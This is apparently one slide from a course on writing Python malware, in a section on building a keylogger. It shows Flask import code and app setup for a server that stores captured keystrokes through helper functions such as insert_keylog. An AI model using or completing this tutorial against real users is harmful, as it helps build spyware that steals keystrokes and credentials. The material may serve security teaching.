

Python Malwares (cont.)
Writing a Keylogger (cont.)
Once flask is installed, we will import necessary modules/functions and define the app object of our web server app:
from flask import Flask, request, abort
from keylogger_database import (
        create_db,
        init_db,
        insert_keylog,
        get_keylogs)
from constants import DATABASE
app = Flask(__name__)
147